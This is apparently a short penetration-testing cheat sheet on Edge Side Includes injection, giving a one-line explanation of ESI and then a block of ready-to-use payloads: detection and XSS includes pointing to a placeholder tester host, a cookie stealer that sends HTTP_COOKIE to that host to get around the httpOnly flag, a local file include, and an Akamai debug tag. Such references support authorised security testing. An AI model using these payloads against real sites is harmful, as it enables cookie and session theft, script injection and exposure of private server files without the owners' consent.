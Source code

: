 Edge Side Includes (ESI) is an XML-based markup language used to tackle performance issues by enabling heavy caching of Web content, which would be otherwise unstorable through traditional caching protocols. 


# ESI TAGS
```
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```
https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/
